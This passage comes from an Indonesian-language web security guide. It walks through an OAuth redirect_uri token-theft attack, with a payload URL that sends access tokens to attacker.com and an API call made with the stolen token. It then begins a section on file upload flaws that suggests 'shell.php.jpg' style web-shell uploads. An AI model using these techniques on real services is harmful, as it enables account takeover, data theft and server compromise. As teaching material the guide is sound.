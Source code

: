 **Contoh Payload:**
```
https://oauthprovider.com/auth?client_id=attacker&redirect_uri=https://attacker.com/callback&response_type=token
```

**Eksploitasi Detail:**
1. **Menyiapkan Aplikasi Penyerang:**
   - Penyerang mendaftar aplikasi mereka sendiri di penyedia OAuth dengan `client_id` dan `redirect_uri` yang menunjuk ke server mereka, misalnya `https://attacker.com/callback`.

2. **Mengalihkan Pengguna ke URL OAuth yang Dimodifikasi:**
   - Penyerang membuat URL otorisasi OAuth yang mengarahkan token akses ke server penyerang.
   - **Payload URL:**
     ```
     https://oauthprovider.com/auth?client_id=attacker&redirect_uri=https://attacker.com/callback&response_type=token
     ```
   - Pengguna diarahkan ke URL ini dan diminta untuk memberikan izin akses.

3. **Mendapatkan Token Akses:**
   - Setelah pengguna memberikan izin, token akses dikirim ke `redirect_uri` yang dimanipulasi, yaitu `https://attacker.com/callback`.
   - Penyerang menerima token akses tersebut di server mereka.

4. **Menggunakan Token Akses:**
   - Penyerang menggunakan token akses yang dicuri untuk mengakses API atau sumber daya pengguna di penyedia OAuth.
   - **Contoh Permintaan API:**
     ```http
     GET /api/userinfo HTTP/1.1
     Host: oauthprovider.com
     Authorization: Bearer [token_akses]
     ```
   - Dengan token ini, penyerang dapat mengakses data pengguna, seperti profil, email, atau informasi sensitif lainnya.

5. **Dampak:**
   - **Data Theft:** Penyerang dapat mengakses dan mencuri data pengguna yang dilindungi oleh token akses.
   - **Privilege Escalation:** Jika token akses memiliki hak istimewa tinggi, penyerang bisa melakukan tindakan yang lebih berbahaya, seperti mengubah pengaturan akun atau mengakses data administrasi.
   - **Identity Impersonation:** Penyerang dapat bertindak atas nama pengguna, melakukan tindakan yang mempengaruhi reputasi atau keamanan pengguna.

---

### **22. File Upload Vulnerabilities**

**Apa itu?**
Kerentanan pada upload file terjadi ketika aplikasi tidak membatasi tipe file yang diunggah atau tidak memeriksa konten file dengan benar, memungkinkan penyerang mengunggah file berbahaya seperti web shell yang bisa dieksekusi di server.

**Cara Enumerasi:**
- **Allowed File Types:** Cek jenis file yang diizinkan untuk diunggah.
- **Filename Testing:** Coba unggah file dengan ekstensi ganda atau skrip, seperti `shell.php.jpg`.
